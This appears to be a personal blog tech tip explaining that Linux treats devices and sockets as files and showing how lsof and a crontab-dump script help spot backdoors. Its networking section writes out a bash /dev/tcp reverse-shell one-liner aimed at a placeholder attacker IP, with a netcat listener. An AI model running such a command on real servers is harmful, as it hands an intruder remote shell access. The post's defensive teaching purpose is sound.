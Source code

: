 +++
title = 'Quick Tech Tip: lsof'
date = 2025-04-21T16:16:41-05:00
draft = false
tags = ["Gems"]
categories = ["CyberSecurity", "QTT"]
+++

So here is a newsflash for all non-Linux people:

# EVERYTHING IN LINUX IS A FILE. LITERALLY EVERYTHING

## Microphones

Your devices like your camera and microphone are mounted at /dev. The ulility "arecord" from the alsa-utils uses this little trick to allow you to do stuff like open the microphone file and forward the data to other command line tools like mpv:

```
arecord -f cd - | mpv -
```

## Cameras
The same can be done with your camera, except it's ffmpeg that relies on the camera being a file:

```
ffmpeg -f v4l2 -i /dev/video0 -f mpegts - | mpv -
```

## FIFO Files

There are some files that act as queues for other programs to pick up data from other programs. They are called [FIFO or Pipe-Files](https://en.wikipedia.org/wiki/Named_pipe).  


## Data Production Files

There are devices that have specific functions like `zero`, `null`, and `random` that produce a specific data like zeros, nothing, or gobbledegook. 

## And so many more

Seriously... everything is a file in Linux and you can do all sorts of crazy stuff once you realize that all tools that work with the UNIX philosophy are supposed to be able to pipe data from one file to the next. But the most interesting of these is the network files.

# Networking files

One thing that only really hackers and Linux devs seem to be aware of is that the mechanism that Linux uses for setting up network connections (sockets) is through creating a socket file attached to the /dev/tcp directory. 

The following command is a standard bind shell command. Typically, you would use an unprivileged RCE (Like with a web shell) to run the following command on the web server you're attacking:

```
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1
```

The above command spawns a bash shell and gives it to another machine at port 1337. The hacker will point that to their IP Address and make sure that there is a tool called netcat listening for it:


```
nc -nvlp 1337
```

# LSOF

So now that you know that everything in Linux is a file, you can appreciate the tool [LSOF, or "list open file"](https://www.man7.org/linux/man-pages/man8/lsof.8.html).

You should read this man page, because lsof can find all sorts of stuff. It can tell you which files are being used by which programs, it can tell you who is running what... but my favorite use of lsof is seeing what processes are talking to what servers:

```
sudo lsof -i
```

Run the command as sudo because you'll be able to see way more than the standard user. I typically use this instead of netstat or ps because it's far more human readable and detailed. It's like the command line equivalent of the game, Clue. 

"It was user A, in /usr/bin, with a tcp socket".

# Something we learned about lsof in XFR

There is a command called "who" or "w", that's designed to tell you who is logged into the machine you're on at the moment that you run it. 

We were using a zero-trust solution for logging into a certain box called Teleport, and we sometimes wanted to see who was ssh'ed in. We could have opened the GUI page for it and look at the audit logs, but my boss and I are Linux neckbeards, so we wanted to just stay on the box all day. 

The problem was that when you use "who", it didn't work. The reason comes down to how "who" checks in on the users. It was missing the mechanism that teleport was using, either because it came in through a seperate namespace, or PAM thing, or whatever. It just didn't show up for "who".

But it TOTALLY showed up for lsof. Every network connection needed a socket and every socket is a file, so we could run lsof -i and see every user on the box. It was glorious.

We also knew what each user was supposed to be running, so this method helped us see users doing shady network things (Like my weird sshuttle tomfoolery) very easily.

It was also really good for finding backdoors. Chances are if there was a backdoor in your server, lsof would tell you a user was connecting to a server / service that you didn't recognize.

side note: Another way to look for backdoors is running a script like this to check all the users' crontabs:

```
#!/bin/bash

# Output file for crontab dumps
output_file="all_crontabs.txt"

# Clear the output file if it exists
> "$output_file"

# Get a list of all users
users=$(cut -f1 -d: /etc/passwd)

# Loop through each user
for user in $users; do
    # Get the user's crontab
    crontab_output=$(crontab -u "$user" -l 2>/dev/null)

    # Check if the user has a crontab
    if [ $? -eq 0 ]; then
        echo "Crontab for user: $user" >> "$output_file"
        echo "$crontab_output" >> "$output_file"
        echo "------------------------" >> "$output_file"
    fi
done

echo "All crontabs have been dumped to $output_file."
```

# Fun Story:

When I was an apprentice at X-Force Red, one of the Linux machines wasn't locked properly, so my boss decided to teach us a lesson and installed 3 back doors. 

1. A unix socket bind shell.

2. A crontab back door.

3. cat'ted his ssh pub key into the authorized key file. 

At the time, I was a noob, so I wasn't sure how to find them... so I cheated and just took the infected machine offline. XD. That said, lsof would have found 2 of them. The third would have been caught by using a host-based IDS or even just an entr command.

# So What?

I admit, this tech tip was a bit more scattered than the others, but remember the following:

1. Everything in Linux is a file. *[Insert Annie meme here](https://www.youtube.com/watch?v=A_iAE2JIyEE)*

2. Every open file can be seen by lsof.

3. Network connections that escape other tools don't escape lsof.

4. Look for backdoors with lsof, looking at crontabs, and check your authorized keys files for ssh every once in a while. 
